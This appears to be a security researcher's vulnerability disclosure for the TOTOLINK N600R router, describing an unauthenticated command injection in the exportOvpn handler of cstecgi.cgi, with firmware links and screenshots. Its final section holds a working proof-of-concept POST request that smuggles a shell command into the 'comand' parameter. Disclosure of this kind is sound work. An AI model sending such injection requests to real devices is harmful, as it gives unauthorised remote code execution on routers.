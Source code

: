 ```yaml
---
title: TOTOLINK_N600R_Command_Injection
date: 2022-02-21 17:11:22
tags: TOTOLINK
---
```


# TOTOlink N600R Comand Injection

#### Venda

ToTolink N600R http://totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

link :http://totolink.net/data/upload/20200728/5fa781d2e6a17e1ed1cbf6f169810809.zip

Name:TOTOLINK_C8160R-1C_N600R_IP04291_8196D_SPI_4M32M_V4.3.0cu.7570_B20200620_ALL.web

ToTolink 7100RU:

Firmware_link: http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Name: TOTOLINK_C8540R-1C_A7100RU_IP04365_MT7621AMT7615Ex2_SPI_16M128M_V7.4cu.2313_B20191024_ALL.web

### Vulnerability1

#### Detail

​	In TOTOLINK N600R equipment cstecgi.cgi  file has command injection at the exportovpn interface, which can lead to unauthenticated RCE



​	Received the environment variable QUERY_STRING in the cstecgi.cgi binary file, which is the URL to visit

<img src="https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20211111143526075.png" alt="image-20211111143526075" style="zoom:50%;" />

Later, it will be judged whether there is exportOvpn, and it is found that it can cause command injection by constructing a url request

<img src="https://raw.githubusercontent.com/doudoudedi/blog-img/master/img/image-20211111142430082.png" alt="image-20211111142430082" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;touch${IFS}1.txt;&filetype=gz HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

aaaaa
```
